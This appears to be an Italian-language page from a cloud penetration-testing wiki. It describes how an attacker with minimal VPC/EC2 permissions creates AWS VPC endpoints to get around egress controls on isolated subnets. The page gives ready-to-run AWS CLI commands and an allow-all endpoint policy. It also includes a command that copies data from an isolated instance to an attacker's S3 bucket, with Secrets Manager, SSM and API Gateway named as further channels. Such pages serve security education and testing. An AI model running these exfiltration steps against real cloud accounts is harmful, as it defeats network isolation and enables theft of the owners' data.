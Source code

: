 # AWS – Bypass dell'egress dalle subnet isolate tramite VPC Endpoints

{{#include ../../../../banners/hacktricks-training.md}}

## Riepilogo

Questa tecnica sfrutta i VPC Endpoints per creare canali di esfiltrazione da subnet senza Internet Gateways o NAT. I Gateway endpoints (e.g., S3) aggiungono route di prefix‑list nelle route table delle subnet; gli Interface endpoints (e.g., execute-api, secretsmanager, ssm, etc.) creano ENI raggiungibili con IP privati protetti da security group. Con permessi minimi su VPC/EC2, un attaccante può abilitare un egress controllato che non attraversa l'Internet pubblica.

> Prerequisiti: VPC esistente e subnet private (no IGW/NAT). Ti serviranno permessi per creare VPC endpoints e, per l'Opzione B, uno security group da associare alle ENI dell'endpoint.

## Opzione A – S3 Gateway VPC Endpoint

**Variabili**
- `REGION=us-east-1`
- `VPC_ID=<target vpc>`
- `RTB_IDS=<comma-separated route table IDs of private subnets>`

1) Crea un file di policy permissiva per l'endpoint (opzionale). Salva come `allow-put-get-any-s3.json`:
```json
{
"Version": "2012-10-17",
"Statement": [ { "Effect": "Allow", "Action": ["s3:*"], "Resource": ["*"] } ]
}
```
2) Crea l'endpoint S3 Gateway (aggiunge S3 prefix‑list route alle tabelle di route selezionate):
```bash
aws ec2 create-vpc-endpoint \
--vpc-id $VPC_ID \
--service-name com.amazonaws.$REGION.s3 \
--vpc-endpoint-type Gateway \
--route-table-ids $RTB_IDS \
--policy-document file://allow-put-get-any-s3.json   # optional
```
Evidenze da raccogliere:
- `aws ec2 describe-route-tables --route-table-ids $RTB_IDS` mostra una route verso la prefix list S3 di AWS (es., `DestinationPrefixListId=pl-..., GatewayId=vpce-...`).
- Da un'istanza in quelle subnets (con IAM perms) puoi exfil via S3 senza Internet:
```bash
# On the isolated instance (e.g., via SSM):
echo data > /tmp/x.txt
aws s3 cp /tmp/x.txt s3://<your-bucket>/egress-test/x.txt --region $REGION
```
## Opzione B – Interface VPC Endpoint for API Gateway (execute-api)

**Variabili**
- `REGION=us-east-1`
- `VPC_ID=<target vpc>`
- `SUBNET_IDS=<comma-separated private subnets>`
- `SG_VPCE=<security group for the endpoint ENIs allowing 443 from target instances>`

1) Crea l'interface endpoint e associa il SG:
```bash
aws ec2 create-vpc-endpoint \
--vpc-id $VPC_ID \
--service-name com.amazonaws.$REGION.execute-api \
--vpc-endpoint-type Interface \
--subnet-ids $SUBNET_IDS \
--security-group-ids $SG_VPCE \
--private-dns-enabled
```
Evidenze da raccogliere:
- `aws ec2 describe-vpc-endpoints` mostra l'endpoint in stato `available` con `NetworkInterfaceIds` (ENIs nelle tue subnet).
- Le istanze in quelle subnet possono raggiungere endpoint Private API Gateway attraverso quei VPCE ENIs (nessun percorso Internet richiesto).

## Impatto
- Elude i controlli di egress perimetrali sfruttando percorsi privati gestiti da AWS verso i servizi AWS.
- Consente l'exfiltrazione di dati da subnet isolate (ad es., scrittura su S3; chiamate a Private API Gateway; accesso a Secrets Manager/SSM/STS, ecc.) senza IGW/NAT.

{{#include ../../../../banners/hacktricks-training.md}}
